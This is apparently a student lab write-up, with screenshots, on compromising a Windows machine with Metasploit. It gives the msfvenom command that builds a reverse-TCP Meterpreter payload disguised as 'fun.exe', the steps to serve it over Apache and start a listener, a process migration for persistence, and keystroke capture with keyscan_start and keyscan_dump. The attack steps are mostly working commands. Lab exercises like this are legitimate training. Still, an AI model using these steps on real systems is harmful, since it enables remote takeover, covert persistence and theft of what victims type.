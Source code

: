 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110609](https://github.com/user-attachments/assets/9244b6df-682a-4925-8437-990b37e7e202)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111401](https://github.com/user-attachments/assets/5469dce6-90fb-4c7c-a969-40777915f820)





copy the fun.exe into the apache /var/www/html folder


![Screenshot 2025-04-07 111757](https://github.com/user-attachments/assets/9b463b17-fee2-4c8c-9bea-0deedb00779a)





Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 111807](https://github.com/user-attachments/assets/d1a1d860-58b2-4983-953f-80178b2fe09c)



Check the status of apache2
![Screenshot 2025-04-07 115230](https://github.com/user-attachments/assets/542fc8c2-6166-4994-87f7-9cba22527af6)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-11 135734](https://github.com/user-attachments/assets/3e73156c-1895-400b-8864-289c2eca698b)





On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/user-attachments/assets/b8a94154-39f4-492d-9328-a12caeb16461)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115329](https://github.com/user-attachments/assets/2fb57481-4077-43d8-80a8-5162251ad7f2)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
